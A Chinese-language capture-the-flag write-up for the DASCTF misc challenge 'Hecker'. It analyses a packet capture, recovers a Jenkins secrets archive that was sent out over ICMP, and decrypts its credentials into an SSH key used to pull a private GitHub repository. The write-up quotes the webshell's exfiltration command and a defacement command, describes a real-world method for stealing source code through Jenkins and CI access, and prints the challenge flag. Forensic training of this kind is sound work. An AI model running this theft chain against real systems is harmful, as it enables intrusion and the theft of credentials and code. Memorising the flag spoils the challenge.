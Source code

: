# misc Hecker

[TOC]

## Main Route for CTFer

``` mermaid
flowchart TD;

	Status_Begin("
Wireshark dump file with traffic with ping transfer file and something with webshell interface in noise env")
	-->
	Status_1("find webshell interface and ping datas in file transfer") 
	
	Status_1 
	-->
	Status_2("zip file extract ") & Status_6("find the banner with eson project")
	Status_2
	-->
	Status_4("Jenkins Secrets")
	
	Status_4 --> Status_5("ssh key about git")
	
	Status_5 & Status_6 --> Status_7("Get file at Secrets github repo")
	--> Status_End("GET flag at source code commit")
	
	%% {{ Project on git contains source code SeverCode and flag }}

```


## 需要工具

Wireshark - 用于分析流量包

Jenkins cred 解密工具 - 用于取出 sshkey

## 详细步骤

首先你会先拿到一个 wireshark 抓包的结果

![](https://c.img.dasctf.com/images/202246/1649222583346-de732512-2896-4ad7-8444-b5bbc1a6d1b1.png)

经过简单的查看整个过程的流量可以发现以下几点

- 这里包含了 HTTP TCP ICMP
- ICMP id 为 0x0082 的请求一直 "污染" 着整个网络通讯

简单的进行 过滤一下 发现

![image-20220318175759019](https://c.img.dasctf.com/images/202246/1649222640678-efc8112b-41ca-467f-bdbe-afb5aa39b158.png)

可以发现 有 webshell 类的交互

运行的命令有 

- ls -al
- python3 main.py
- python3 main.py 172.17.0.1 jenkins_secret.zip
- echo HACKED  BY 99BIE > readme.txt
- cat readme.txt

![image-20220318180256447](https://c.img.dasctf.com/images/202246/1649222672390-ead87149-cd61-492a-9f5f-6ee48f72f227.png)

核心需要关注的 是这几条记录 可以发现 

backdoor 这里加入了 jenkins_secret.zip 之后 response 和 request 间隔的时间远远大于 其他的通讯的 request 和 response

观察其请求 可以发现 通讯信息就是简简单单的 base64 encode 而已

![image-20220318180558771](https://c.img.dasctf.com/images/202246/1649222769302-8018e477-fd8d-47ab-aabc-251abd8f38d9.png)

```
STDERR: VHJhY2ViYWNrIChtb3N0IHJlY2VudCBjYWxsIGxhc3QpOgogIEZpbGUgIi9zZXJ2ZXIvbWFpbi5weSIsIGxpbmUgMTkzLCBpbiA8bW9kdWxlPgogICAgcGluZyhzeXMuYXJndlsxXSwgc3lzLmFyZ3ZbMl0pCkluZGV4RXJyb3I6IGxpc3QgaW5kZXggb3V0IG9mIHJhbmdlCg==
STDOUT: VXNhZ2U6IG1haW4ucHkge2lwfSB7c2VuZGZpbGV9ClVzYWdlOiBtYWluLnB5IHtpcH0ge3NlbmRmaWxlfSB7cmF0ZWxpbWl0IChzZWNvbmQpfQo=
```

![](https://c.img.dasctf.com/images/202246/1649222879812-0c653098-8112-4a89-91ce-40a6558ed22d.png)

然后顺势解密其他的 流量信息

还有 ping 这里有一处信息之后用到 先记录一下

![image-20220318180055369](https://c.img.dasctf.com/images/202246/1649222981244-9b79e9f7-8dcf-4ba9-a514-c70ebfc5ee81.png)

可以看到 `Esonhugh @github` 和 ` Esonhugh/secret_source_code` 等字样



既然发现时间有问题 那么 回去看看这个操作之间经过了什么东西 对这条流量进行 mark

发现 有很多的 icmp 流量发送出来

![image-20220318181144775](https://c.img.dasctf.com/images/202246/1649223020977-b03218ec-41b1-42ec-ba85-8941e6fa1df6.png)

有一个 ident 为 0x0087 开始的全新 ICMP 流量段出现

![image-20220318181416542](https://c.img.dasctf.com/images/202246/1649223064207-c62cb149-5188-4b84-a8ce-b4088ee26203.png)

并且 ident=0x0087 的 ICMP 结束之后 2s 我们 收到了 HTTP response ok

看 webshell 可以发现 应该是发送了一个 zip 包回来 

![image-20220318181653682](https://c.img.dasctf.com/images/202246/1649223098749-53c2c895-e5bb-4c72-9761-43470649de2f.png)

细看 PK 头 还有 压缩包内的内容

很好 现在就只要把他 过滤出来就可以了

```icmp.ident==0x0087 && icmp.resp_in ```

这里用的是 这条 也可以是 resp_to 避免 icmp request 和 response 的重复

结果导出

![image-20220318182520843](https://c.img.dasctf.com/images/202246/1649223129857-98fcb4f3-5623-4bf5-992d-378f5b54f1be.png)

保存为 icmp.data.json

```
cat icmp.data.json|grep data.data|cut -d "\"" -f 4
```

现在就可以看到全部的 data 信息了

比如这个第一段

```
41:d8:8d:14:43:56:6c:ad:ee:55:00:4e:de:ad:be:ef:50:4b:03:04:0a:00:00:00:00:00:d2:b2:71:54:00:00:00:00
```

看看开头 可以发现重复部分

![image-20220318183228672](https://c.img.dasctf.com/images/202246/1649223155662-b9c1bf87-0f30-4eee-bee1-596b97a8be5f.png)

`41:d8:8d:14:43:56:6c:ad:ee:55:00:4e:de:ad:be:ef`

这里有可能是 d6 d7 有几个位数会发生变化 但是没关系这其实是 checksum deadbeef 这里还是可以切除的

进行一个去除

这时候留意下结尾看看是不是也有相关的内容

![image-20220318183405591](https://c.img.dasctf.com/images/202246/1649223174302-a89c29ae-b515-42a2-a1b8-77062f59228c.png)

不出意外确实也有

`:13:37:13:37:11:33:33:77`

进行第二个去除

直接替换为 空就可以了

现在可以看到我们应该只剩下了 压缩包最中间的部分

再把 : 替换为 \x 的样子 就可以进行转义了

> vim 块编辑 可以快速搞定 Ctrl+v 然后选中 开头结尾就可以了

```
cat process1|sed -e "s/:/\\\\x/g" > process2 # 将: 转换为 \x 
print "`cat process2`" > data.zip # 拿到原先的 文件 jenkins_secret.zip
```

这样我们就取出了  这个 zip

解压缩 

获取到 jenkins_secret 文件夹

看到 cred 和 secerts 文件夹 那么很简单了 

直接 jenkins cred 解密就完事



![image-20220319124555895](https://c.img.dasctf.com/images/202246/1649223250175-8e292fb8-d026-4ea8-b1fc-3c3728bf911e.png)



这里我贴了一个 hint 不过 没有加什么 hint 上去

这里我们拿下一个 ssh key

那么这条线索也就利用完了

还记得之前记一下的那个 地方吗

直接将 SSH key 保存

然后 让 ssh-agent 进行一手代理

> 最近 github 有点点问题 可能拉起来有一些不对劲
>
> 但是 放心 是拉的下来的

`Esonhugh @github` 和 ` Esonhugh/secret_source_code`

![image-20220319125235457](https://c.img.dasctf.com/images/202246/1649223281426-1060a319-e1d4-4457-a9a5-f5df4fd85de5.png)

简单的看一下 log 和 branch 能够发现

![image-20220319125357072](https://c.img.dasctf.com/images/202246/1649223300574-a2975b00-cecc-4c6a-bb42-f21e74048fc3.png)

flag 就存放在 upload source code 1 这里

而不是 flag (读取 flag 的两个分支 会得到 never gonna give you up)

![image-20220319125701249](https://c.img.dasctf.com/images/202246/1649223326630-ecf0faee-fb5e-4549-b700-9828c4994144.png)

![image-20220319125718898](https://c.img.dasctf.com/images/202246/1649223370318-c4b83160-a6f9-4c99-8430-7e8b6e3036df.png)

flag 就在最底下 (你们还是被骗了 Doge)

如果有可视化的 git 工具

或者直接 jetbrains IDE 打开

![image-20220319130226984.png](https://c.img.dasctf.com/images/202246/1649223397312-eefb9a24-d50a-41ce-92da-f818b6f87aee.png)

检查一下历史变更就可以了

![](https://c.img.dasctf.com/images/202246/1649223423668-359a9f73-5ebf-4e2d-92e3-0746df92c44a.png)

flag `DASCTF{Oh!_H4ck_f0r_c0d3s-and_4buse_1t}`





## 实战意义

出题目的过程其实是来源于我经历的一次渗透

日穿服务器之后信息收集 偷取源码或者go web binary

看到 Jenkins 和 CICD 之后 滥用它的 git 来获取源码与信息

可能看 banner 没有 人能看出来什么 这一部需要更多的联想 但是我已经给出了  `@github` 字样的提示 理论上也不是很难

